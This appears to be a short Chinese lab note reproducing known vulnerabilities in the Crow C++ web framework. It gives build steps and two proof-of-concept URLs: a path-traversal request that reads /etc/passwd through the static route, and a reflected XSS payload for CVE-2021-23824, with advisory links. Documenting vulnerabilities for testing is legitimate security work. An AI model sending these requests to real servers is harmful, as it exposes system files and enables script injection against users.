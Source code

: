 dpkg -i 进行安装
安装失败请安装依赖
apt install libboost-all-dev
apt --fix-broken install


### 编译参数
```shell
g++ -o main main.cpp -lpthread
```




### 任意文件读取漏洞
默认static为静态文件服务路径
```shell
http://172.16.70.11:18080/static/../../../../../../../../../etc/passwd
```
![](./images/1-passwd.jpg)

### XSS- CVE-2021-23824
```js
http://172.16.70.11:18080/index?src=x%20onerror%3dalert(1)
```
![图 2](images/0d7774b87bf3f93d4e725ffef16ea754e09d4beb3eeeedc913ebdaa95bf7a3c0.png)  


### 参考链接
- https://cn-sec.com/archives/913502.html
- https://security.snyk.io/vuln/SNYK-UNMANAGED-CROW-2336163
- https://crowcpp.org/master/guides/static/
- https://gitee.com/ASCIPHX/crow
- https://www.lightsmile.cn/blog/articles/使用crow构建web服务/
- https://blog.csdn.net/qq_21567767/article/details/105911906
- https://security.snyk.io/vuln/SNYK-UNMANAGED-CROW-2336164 xss
- 